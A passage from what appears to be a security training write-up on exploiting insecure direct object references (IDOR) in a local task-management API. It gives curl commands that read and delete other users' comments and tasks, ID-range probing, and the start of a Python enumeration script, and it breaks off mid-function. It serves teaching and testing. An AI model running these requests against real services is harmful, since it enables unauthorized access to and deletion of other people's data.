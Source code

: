 ### 4. Comment System IDOR

**Objective**: Access and manipulate comments across different tasks

```bash
# Access comments from other users' tasks
curl -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/comments/task/10"

# Delete other users' comments
curl -X DELETE -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/comments/15"
```

## Step-by-Step Exploitation Tutorial

### Phase 1: Discovery and Reconnaissance

1. **Identify Object References**
   ```bash
   # Login and get your own tasks
   TOKEN=$(curl -s -X POST http://localhost:3000/api/auth/login \
           -H "Content-Type: application/json" \
           -d '{"email":"user1@example.com","password":"password"}' | \
           jq -r '.token')
   
   # Get your tasks to understand ID structure
   curl -H "Authorization: Bearer $TOKEN" \
        "http://localhost:3000/api/tasks" | jq '.[].id'
   ```

2. **Test Basic IDOR**
   ```bash
   # Try accessing a task with different ID
   curl -H "Authorization: Bearer $TOKEN" \
        "http://localhost:3000/api/tasks/1"
   
   # Check response - if successful, IDOR exists
   ```

3. **Determine ID Range**
   ```bash
   # Test various ID ranges to understand system scale
   curl -H "Authorization: Bearer $TOKEN" "http://localhost:3000/api/tasks/1"
   curl -H "Authorization: Bearer $TOKEN" "http://localhost:3000/api/tasks/100"
   curl -H "Authorization: Bearer $TOKEN" "http://localhost:3000/api/tasks/1000"
   ```

### Phase 2: Systematic Enumeration

1. **Automated Task Discovery**
   ```python
   import requests
   import json
   
   def enumerate_tasks(token, start_id=1, end_id=100):
       headers = {'Authorization': f'Bearer {token}'}
       found_tasks = []
       
       for task_id in range(start_id, end_id + 1):
           try:
               response = requests.get(
                   f'http://localhost:3000/api/tasks/{task_id}',
                   headers=headers
               )
               
   ```